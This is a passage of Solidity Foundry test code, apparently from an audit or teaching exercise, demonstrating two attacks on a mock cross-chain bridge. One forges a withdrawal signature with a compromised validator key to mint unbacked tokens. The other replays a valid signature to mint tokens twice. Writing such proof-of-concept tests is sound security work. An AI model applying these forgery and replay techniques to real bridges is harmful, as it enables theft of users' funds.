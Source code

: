 ```solidity {"1":40} {"2":57} {"3":61} {"1":71} {"2":88} {"3":92} {"4":97}
        bytes32 sourceTxHash = keccak256(abi.encode(blockhash(block.number - 1), spiderMan, 1000, uint256(1)));

        // Step 2: Forge signature (attacker has validator key)
        bytes32 messageHash = keccak256(abi.encodePacked(doctorStrange, uint256(1000), uint256(1), sourceTxHash));
        bytes memory forgedSig = signMessage(messageHash, validatorPk);

        // Step 3: Attacker mints on destination
        vm.prank(doctorStrange);
        destBridge.withdraw(doctorStrange, 1000, 1, sourceTxHash, forgedSig);

        // Verify: Attacker got unbacked funds
        assertEq(mockToken.balanceOf(doctorStrange), 1000, "Forgery failed");
        assertEq(sourceBridge.totalLocked(), 1000, "Source drained unexpectedly");
    }

    function testReplayAttack() public {
        // Step 1: Spider-Man approves and locks 1,000 mETH
        vm.startPrank(spiderMan);
        mockToken.approve(address(sourceBridge), 1000);
        
        // Verify allowance
        assertEq(mockToken.allowance(spiderMan, address(sourceBridge)), 1000, "SourceBridge should have 1000 mETH allowance");
        
        sourceBridge.lockFunds(1000, 1);
        vm.stopPrank();

        // Verify lock
        assertEq(sourceBridge.totalLocked(), 1000, "SourceBridge should have 1000 mETH locked");
        assertEq(mockToken.balanceOf(address(sourceBridge)), 1000, "SourceBridge should hold 1000 mETH");

        // Simulate event data
        bytes32 sourceTxHash = keccak256(abi.encode(blockhash(block.number - 1), spiderMan, 1000, uint256(1)));

        // Step 2: Create valid signature
        bytes32 messageHash = keccak256(abi.encodePacked(spiderMan, uint256(1000), uint256(1), sourceTxHash));
        bytes memory validSig = signMessage(messageHash, validatorPk);

        // Step 3: Legitimate withdraw
        vm.prank(spiderMan);
        destBridge.withdraw(spiderMan, 1000, 1, sourceTxHash, validSig);
        assertEq(mockToken.balanceOf(spiderMan), 1000, "Legit withdraw failed");

        // Step 4: Replay attack with same parameters
        vm.prank(doctorStrange);
        destBridge.withdraw(spiderMan, 1000, 1, sourceTxHash, validSig); // Use spiderMan as 'to' address

        // Verify: Attacker successfully replayed and minted extra tokens
        assertEq(mockToken.balanceOf(spiderMan), 2000, "Replay attack failed to mint extra tokens");
    }
}
```
